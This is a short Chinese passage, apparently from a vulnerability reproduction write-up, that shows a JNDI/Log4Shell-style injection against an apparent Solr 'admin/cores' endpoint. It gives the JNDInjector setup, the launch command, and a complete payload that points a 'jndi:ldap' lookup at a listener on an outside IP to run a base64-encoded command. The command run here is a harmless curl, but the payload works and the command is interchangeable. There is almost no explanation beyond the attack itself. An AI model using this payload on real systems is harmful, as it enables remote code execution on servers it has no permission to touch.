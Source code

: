 
## 0x03云服务器`JNDInjector_v1.1`开启监听LDAP和HTTP，Gadget选择：`Plain,`Payload选择：`Exec`,参数：`curl https://httpbin.org/ip`,

最终payload：`admin/cores?action=${jndi:ldap://47.116.182.94:1389/NnyEgRhDsm/Plain/Exec/eyJjbWQiOiJjdXJsIGh0dHBzOi8vaHR0cGJpbi5vcmcvaXAifQ==}`

比如：`java -jar JNDInjector.jar -i 47.116.182.94`,ldap监听1389端口，HTTP监听8888端口

![image-20240807142658042](assets/image-20240807142658042.png)

![image-20240807143125231](assets/image-20240807143125231.png)
